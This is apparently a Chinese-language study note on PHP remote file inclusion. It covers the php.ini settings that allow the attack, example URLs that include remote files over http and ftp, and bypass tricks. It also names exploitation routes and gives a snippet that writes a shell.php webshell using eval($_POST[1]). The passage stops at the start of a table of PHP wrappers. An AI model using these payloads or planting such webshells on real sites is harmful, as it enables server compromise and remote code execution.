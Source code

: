 ------

#### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

- 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  ```